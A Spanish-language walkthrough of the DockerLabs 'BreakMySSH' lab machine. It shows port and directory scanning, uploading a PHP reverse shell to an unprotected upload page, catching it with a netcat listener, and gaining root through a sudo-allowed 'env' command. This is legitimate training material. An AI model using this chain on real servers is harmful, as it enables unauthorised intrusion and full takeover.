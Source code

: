 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterísiticas muestran.
```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 11:11 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```
Observamos que el puerto 80 del servicio http esta abierto, por ello al ser el unico puerto abierto por lógica intentaremos escalar por ahí. En cualquier buscador ponemos la dirección ip, en este caso 172.17.0.2, nos muestra una pagina web donde se puede subir archivos:
<br><br>
![pagina web upload](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/8206ef47-d953-4249-8299-602b767cd7ec)
<br><br><br>
Aqui se dispersa la cosa, ya que vamos a tirar por acceder a la máquina víctima subiendo un archivo php que contenga una reverse shell, para ello hay muchas formas, todas se parecen en ciertas cosas, pero en este caso la voy a hacer de una manera muy sencilla.
<br>
Pero antes de comenzar con la reverse shell, hay que averiguar donde se encuentra y como se llama el directorio donde se alamecenan los archivos que subamos.
<br>
Para ello vamos a hacer fuzzing con la herramienta gobuster (se puede hacer igual con herramientas como wfuzz entre otras)
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
Progress: 45155 / 441122 (10.24%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 48897 / 441122 (11.08%)
===============================================================
Finished
===============================================================
```
Observamos que nos saca un directorio que destaca, ya que encima muestra un enlace, hablamos del directorio "172.17.0.2/uploads/". Una vez llegados aqui volvemos al tema de la reverse shell, ahora si.
Vamos a la pagina https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php y descargamos el archivo php, lo abrimos en la terminal con alguna herramientas de edicion de texto como nano. Hay dos lineas donde pone "CHANGE THIS" ahi deberias poner la ip de vuestra máquina anfitriona y el puerto:
<br><br>
![Foto del codigo de reverse shell](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/93e2497c-8348-4a03-8ff0-9c37807ef8bb)
<br><br>
Subimos este archivo a la pagina víctima. <br>Para estar seguros de que se ha subido, con esta url  "172.17.0.2/uploads/" veremos que se encuentra el archivo almacenado:
<br><br>
![direcotrio por fuzzing](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/5c766129-42b5-4bc2-a2b3-48d6d08996ad)
<br><br>
Antes de ejecutar la reverse shell, tenemos que ejecutar la herramienta netcat para ponernos en escucha, siempre hay que poner obviamente el mismo puerto que hemos puesto anteriormente en el archivo php que hemos editado:

```shell
└─$ nc -lvnp 4444                       
listening on [any] 4444 ...
```
"nc" es la abreviatura de netcat, una herramienta de red que se puede usar para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP.
<br>
-l: Espere conexiones entrantes en lugar de intentar conectarse a otro sistema.
<br>
-v: Muestre información detallada sobre lo que está sucediendo.
<br>
-n: No realice la resolución de nombres de host, solo use direcciones IP.
<br>
-p 4444: Escuche en el puerto 4444
<br><br>
Una vez estamos en escucha, en la url escribimos el nombre del archivo "172.17.0.2/uploads/php-reverse-shell.php", la pagina deberia quedarse en blanco cargando:

```shell
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.2] 41216
Linux 4419c3b05405 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 17:55:13 up  6:18,  0 users,  load average: 0.34, 0.41, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Ya somos el usuario "www-data", la idea es llegar a ser root pero antes de esto, debemos hacer el llamado "tratamiento de terminal", se refiere a mejorar la funcionalidad y usabilidad de la shell que has obtenido. Ya que cuando te conectas a una máquina víctima a través de una reverse shell, es común que la sesión no se comporte como una terminal interactiva completa. Esto puede limitar tu capacidad para usar ciertos comandos.
<br><br>
Tratamiento de terminal paso a paso:
<br><br>
1 - "script /dev/null -c bash" - El comando script inicia una sesión de terminal grabada en el archivo especificado (/dev/null en este caso, que descarta la salida). La opción -c bash ejecuta bash dentro de esta sesión.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@4419c3b05405:/$ 
```
2 - "Control + z" - Suspende temporalmente la sesión de la shell actual y devuelve el control al shell principal, para poner la sesion en segundo plano.
<br><br>
3 - "stty raw -echo; fg" - Configura la terminal para que pase las entradas crudas (raw) y desactiva el eco (-echo), lo que significa que los caracteres que escribes no se mostrarán. Esto mejora la interacividad de la shell.

```shell
└─$ stty raw -echo; fg

[1]  + continued  nc -lvnp 4444
```
4 - "reset xterm" - Debido al paso anterior parece que la terminal se ha rayado, pero no, hay que ejecutar "reset xterm" aunque el cursor este en medio de la terminal.Este comando  restablece la terminal a sus valores predeterminados, conseguimos limpiar y reconfigura la terminal para que funcione correctamente.
<br><br>
5 - "export TERM=xterm" - Establece la variable de entorno TERM a xterm, lo que informa a los programas terminales sobre el tipo de terminal que estás usando. Conseguimos que la terminal interprete correctamente los comandos y el formato de salida.

```shell
www-data@4419c3b05405:/$ export TERM=xterm
```
6 - "export SHELL=bash" - Establece la variable de entorno SHELL a bash, lo que informa al sistema que estás utilizando bash como shell. Puede ayudar a algunos programas y scripts a comportarse correctamente, asumiendo que bash es tu shell.

```shell
www-data@4419c3b05405:/$ export SHELL=bash
```
Una vez hemos completado el "tratamiento de terminal" toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).
<br>

```shell
www-data@4419c3b05405:/$ sudo -l
Matching Defaults entries for www-data on 4419c3b05405:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 4419c3b05405:
    (root) NOPASSWD: /usr/bin/env
```
Esta linea es la que nos interesa "(root) NOPASSWD: /usr/bin/env": significa que el usuario puede ejecutar el comando /usr/bin/env con privilegios de superusuario (root) sin necesidad de proporcionar una contraseña.
<br>
Para escalar privilegios nos aprovecharemos de "/usr/bin/env" para ser root, para ello nos metemos en la pagina https://gtfobins.github.io/#env y en la opcion de "env" pinchamos en el recuadro de "Sudo", copiamos el comando que nos aparece "sudo env /bin/sh" y ejecutamos.

```shell
www-data@4419c3b05405:/$ sudo env /bin/sh
# whoami
root
# 
```
Ya esta, estamos dentro, somos root, muchas gracias.
